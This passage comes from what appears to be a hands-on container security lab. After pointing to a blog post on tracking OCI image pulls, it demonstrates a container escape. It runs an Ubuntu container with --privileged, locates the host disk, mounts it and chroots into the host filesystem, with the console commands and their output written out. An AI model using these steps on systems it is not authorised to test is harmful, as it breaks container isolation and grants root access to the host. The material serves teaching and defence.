 ```{seealso}
Want more like the above? Well, to start I recommend checking out
[this](https://raesene.github.io/blog/2023/02/11/Fun-with-Containers-adding-tracking-to-your-images/) incredibly
interesting blog post about how OCI images can be modified to track when it's pulled, and anything online from a group
that calls themselves SIG-Honk.

Also, keep an eye out for additional labs by myself in the future 😉
```

## Ready, Set, Break!

Alright, now it's time for our last section, a container escape.

We'll start by running a standard Ubuntu container with some additional privileges which are sometimes used when trying
to troubleshoot permissions issues:

```{code-block} console
---
class: skip-tests
---
$ docker run -it -e HOME --privileged ubuntu:24.04
Unable to find image 'ubuntu:24.04' locally
24.04: Pulling from library/ubuntu
fdcaa7e87498: Pull complete
Digest: sha256:562456a05a0dbd62a671c1854868862a4687bf979a96d48ae8e766642cd911e8
Status: Downloaded newer image for ubuntu:24.04
```

Then, by abusing the additional access from the `--privileged` argument, we can mount the host filesystem, which in my
example is on `/dev/nvme0n1p1`:

```{code-block} console
---
class: skip-tests
emphasize-lines: 5-7
---
$ mount | grep '/dev/'
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,seclabel,gid=5,mode=620,ptmxmode=666)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime,seclabel)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,seclabel,size=65536k)
/dev/nvme0n1p1 on /etc/resolv.conf type xfs (rw,noatime,seclabel,attr2,inode64,logbufs=8,logbsize=32k,sunit=1024,swidth=1024,noquota)
/dev/nvme0n1p1 on /etc/hostname type xfs (rw,noatime,seclabel,attr2,inode64,logbufs=8,logbsize=32k,sunit=1024,swidth=1024,noquota)
/dev/nvme0n1p1 on /etc/hosts type xfs (rw,noatime,seclabel,attr2,inode64,logbufs=8,logbsize=32k,sunit=1024,swidth=1024,noquota)
devpts on /dev/console type devpts (rw,nosuid,noexec,relatime,seclabel,gid=5,mode=620,ptmxmode=666)
$ ls -al /home # Nothing in the home directory in the container
total 0
drwxr-xr-x. 3 root   root   20 Apr 23 15:31 .
drwxr-xr-x. 1 root   root    6 May  1 00:59 ..
drwxr-x---. 2 ubuntu ubuntu 57 Apr 23 15:31 ubuntu
$ mount /dev/nvme0n1p1 /mnt
$ chroot /mnt
```
